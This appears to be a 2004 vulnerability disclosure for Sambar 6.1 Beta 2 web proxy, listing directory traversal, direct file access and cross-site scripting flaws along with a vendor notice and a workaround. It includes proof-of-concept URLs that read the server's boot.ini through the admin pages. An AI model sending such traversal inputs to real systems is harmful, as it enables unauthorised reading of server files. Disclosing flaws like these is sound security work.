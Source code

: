 === Content from www.oliverkarow.de_def8f4b5_20250125_122330.html ===
Sambar Proxy Multible Vulnerabilities
=====================================
I found some vulnerabilitites in Sambar Webproxy (www.sambar.com), which allow the
sambar admin access to files outside of the application directories.
Since Sambar comes with no password for admin as default, it might be a security problem,
if administration of Sambar proxy is allowed from any IP (by default it is restricted to 127.0.0.1!).
In Addition, i found some XSS.
Directory Traversal
===================
http://myserver/sysadmin/system/showini.asp?file=\..\..\..\..\..\..\..\boot.ini
See: www.oliverkarow.de/research/sambar\_trav.GIF
Direct File Access
==================
http://localhost/sysadmin/system/showlog.asp?log=c:\boot.ini&tail=y
Cross Site Scripting
====================
http://localhost/sysadmin/system/show.asp?show=
http://localhost/sysadmin/system/showperf.asp?area=search&title=
Version
=======
I only tested Sambar 6.1 Beta 2 on Windows platform (x86). Other versions/platforms may also be affected.
Vendor
======
www.sambar.com
Vendor is informed, and is fixing this vulns in the next release.
Workaround
==========
Set a password for admin account and restrict administration to localhost (default).
Credits
=======
15.05.2004 www.oliverkarow.de
www.oliverkarow.de/research/sambar.txt

